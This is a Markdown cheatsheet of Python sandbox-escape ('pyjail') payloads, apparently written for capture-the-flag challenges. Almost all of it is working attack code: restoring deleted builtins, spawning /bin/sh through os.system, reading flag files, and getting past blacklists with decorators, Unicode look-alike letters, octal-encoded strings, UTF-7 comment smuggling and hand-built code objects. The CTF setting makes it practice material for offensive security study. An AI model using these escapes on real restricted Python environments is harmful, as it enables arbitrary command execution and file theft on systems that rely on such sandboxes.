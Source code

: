 # Pyjail cheatsheet

## Common payloads

### no builtins, inside an interactive shell/multiple exec

```py
# Thanks @Loldemort
del __builtins__
exec(input())
```

### Restore builtins
```py
help.__call__.__builtins__ # or __globals__
license.__call__.__builtins__ # or __globals__
credits.__call__.__builtins__ # or __globals__
__build_class__.__self__
__import__.__self__
abs.__self__
aiter.__self__
all.__self__
anext.__self__
any.__self__
ascii.__self__
bin.__self__
breakpoint.__self__
callable.__self__
chr.__self__
compile.__self__
delattr.__self__
dir.__self__
divmod.__self__
eval.__self__
exec.__self__
format.__self__
getattr.__self__
globals.__self__
hasattr.__self__
hash.__self__
hex.__self__
id.__self__
input.__self__
isinstance.__self__
issubclass.__self__
iter.__self__
len.__self__
locals.__self__
max.__self__
min.__self__
next.__self__
oct.__self__
ord.__self__
pow.__self__
print.__self__
repr.__self__
round.__self__
setattr.__self__
sorted.__self__
sum.__self__
vars.__self__

defined_function.__globals__["__builtins__"]
```

### Spawning a shell

```py
breakpoint()
# import os; os.system("/bin/sh")
```
```py
exec(input())
# import os; os.system("/bin/sh")
```
```py
eval(input())
# __import__("os").system("/bin/sh")
```

### Read a file

```py
# to stderr
exit(set(open("flag")))
exit(*open("flag"))
help(*open("flag")) # this also works with (stdout/stderr) closed 
open(*open("flag"))
compile(".","flag","exec") # flag printed to stderr
ast.parse(".", "flag") # only works if ast is imported
```

```py
# to stdout
help(*open("flag")) # this works like a normal print
set(open("flag")) # only works inside an interactive console
print(*open("flag"))
```

### Deleting a variable

```py
# Using try except:

delete_me = ""
try:
    p
except NameError as delete_me:
    pass
print(delete_me) # error
```
```py
# using del

delete_me = ""
del delete_me
print(delete_me) # error
```

## Bypassing common blacklists
### No function calls

```py
@exec
@input
def a:pass # or class a:pass
```

### No function call and no exec/eval

```py
@print
@set
@open
@input
def a:pass # or class a:pass
```

### No function call, no exec/eval, no \n, no spaces, no tabs
```py
@print\r@set\r@open\r@input\rclass\x0ca:pass
```

### No ASCII letters
```py
# I usually use https://lingojam.com/ItalicTextGenerator

𝘣𝘳𝘦𝘢𝘬𝘱𝘰𝘪𝘯𝘵() # import os;os.system("/bin/sh")

```

Other unicode bypasses: https://peps.python.org/pep-0672/

### no ASCII letters, no underscores, inside eval
```
_＿𝘪𝘮𝘱𝘰𝘳𝘵＿_(𝘪𝘯𝘱𝘶𝘵()).system(𝘪𝘯𝘱𝘶𝘵())

```

### no ASCII letters, no double underscores, no builtins, inside eval
```py
()._＿𝘤𝘭𝘢𝘴𝘴＿_._＿𝘮𝘳𝘰＿_[1]._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘦𝘴＿_()[104].𝘭𝘰𝘢𝘥_𝘮𝘰𝘥𝘶𝘭𝘦("\157\163").𝘴𝘺𝘴𝘵𝘦𝘮("\57\142\151\156\57\163\150")
```

### no ASCII letters, no double underscores, no builtins, no quotes/double quotes inside eval (>= python3.8)
```py
[𝘺:=()._＿𝘥𝘰𝘤＿_, 𝘢:=y[19],()._＿𝘤𝘭𝘢𝘴𝘴＿_._＿𝘮𝘳𝘰＿_[1]._＿𝘴𝘶𝘣𝘤𝘭𝘢𝘴𝘴𝘦𝘴＿_()[104].𝘭𝘰𝘢𝘥_𝘮𝘰𝘥𝘶𝘭𝘦(𝘺[34]+𝘢).𝘴𝘺𝘴𝘵𝘦𝘮(𝘢+𝘺[56])]
```

### no builtins, no mro, single exec
```py
().__class__.__class__.__subclasses__(().__class__.__class__)[0].register.__builtins__["breakpoint"]()
```
### Bypass parsers using comments and encodings
(only works if everything is put into a file and then executed)
```py
# -*- coding: utf_7 -*-
def f(x):
    return x
    #+AAo-print(open("flag.txt").read())
```

### multiple exec, no dots, no builtins/builtins blacklisted  + other blacklisted words 
```py
# only works if sys is already imported
__builtins__ = sys
__builtins__ = modules
__builtins__ = os
system("cat /flag")
```

### builtins are deleted from everywhere:
https://gist.github.com/CharlesAverill/e7fef5a6e078f14b7ac7b3d318e3e24f?permalink_comment_id=4749794#gistcomment-4749794

### Bypass blacklists building functions from scratch
```py
# The number of arguments may change based on the Python version
(lambda x:0).__class__((lambda x:0).__code__.__class__(0, 0, 0, 3, 64, 10, b't\x00d\x01\x83\x01S\x00', (None, 'Your Code Goes Here'), ('exe''c',), ('',), '', '', 1, b'', (), ()), (lambda x:0).__globals__)()
```
